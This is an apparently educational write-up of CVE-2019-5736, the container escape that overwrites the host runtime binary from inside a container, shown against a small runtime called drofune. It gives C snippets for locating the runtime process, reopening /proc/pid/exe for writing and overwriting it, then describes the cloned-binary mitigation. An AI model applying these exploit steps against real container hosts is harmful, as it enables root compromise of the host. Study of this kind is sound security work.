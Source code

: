 # CVE-2019-5736

The vulnerability is that the binary executed on the host side can be overwritten from the container side. It represents the difficulty of entering the namespace safely.

## How does the exploit work?

Run exploits inside a container. Then use `drofune exec` to enter an existing container.

![How it works](how_it_works.gif)

First, wait for a new `drofune` process comes into the container in a loop.

```c
while (pid == NULL) {
  dir = opendir("/proc");
  
  for (dp = readdir(dir); dp != NULL; dp = readdir(dir)) {
    int len = 14 + strlen(dp->d_name) + 1;
    char *cmdline_file = malloc(len);
    snprintf(cmdline_file, len, "/proc/%s/cmdline", dp->d_name);
    fp = fopen(cmdline_file, "r");

    if (fp != NULL) {
      char *cmdline = malloc(16);
      fread(cmdline, sizeof(char), 16, fp);
      fclose(fp);
      if (strstr(cmdline, "drofune") != NULL) {
        printf("Found: %s\n", cmdline_file);
        pid = dp->d_name;
        break;
      }
    }
    free(cmdline_file);
  }
  closedir(dir);
}
```

Next, open the process' `proc/pid/exe` as read only.

```c
snprintf(exe_file, exe_file_len, "/proc/%s/exe", pid);
int exe_fd = open(exe_file, O_RDONLY);
```

The important thing is that this process is running, thus it cannot be opened as write mode. However, it can be opened as write mode after the process is finished, via `/proc/self/fd`.

```c
while (1) {
  errno = 0;
  self_fd = open(self_fd_file, O_WRONLY | O_TRUNC);
  if (self_fd > 0) {
    printf("Got a file descriptor for writing\n");
    break;
  } else if (errno == ETXTBSY) {
    // Retry
  } else {
    perror("Failed to open /proc/self/fd/pid");
    return 1;
  }
}
```

Finally, you can overwrite the binary via the file descriptor you got.

```c
printf("Overwriting the host binary...\n");
write(self_fd, payload, strlen(payload);
```

Note that you need to delete the binary once to avoid the text file busy error. In runc, you don't need to worry about this, as the binary will not be busy.

## Mitigations

Entering the existing container with `--clone-binary` option allows to mitigate the vulnerability. When this option is given, run the cloned binary loaded into memory.

![clone binary mitigation](clone_binary_mitigation.gif)

```c
if (ctx.clone_binary) {
  ensure_cloned_binary();
}
```

https://github.com/wata727/drofune/blob/6ccf11e675d55c9cae24cf2457af5d5e879ba540/exec.c#L24-L32
https://github.com/wata727/drofune/blob/6ccf11e675d55c9cae24cf2457af5d5e879ba540/cloned_binary.c

The above `cloned_binary.c` is a patch that is actually adopted by runc.

This will cause `/proc/pid/exe` to point to memory rather than a binary on the host. So you can not overwrite it from the container.

## References

- [CVE-2019-5736: Escape from Docker and Kubernetes containers to root on host](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)
- [Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)
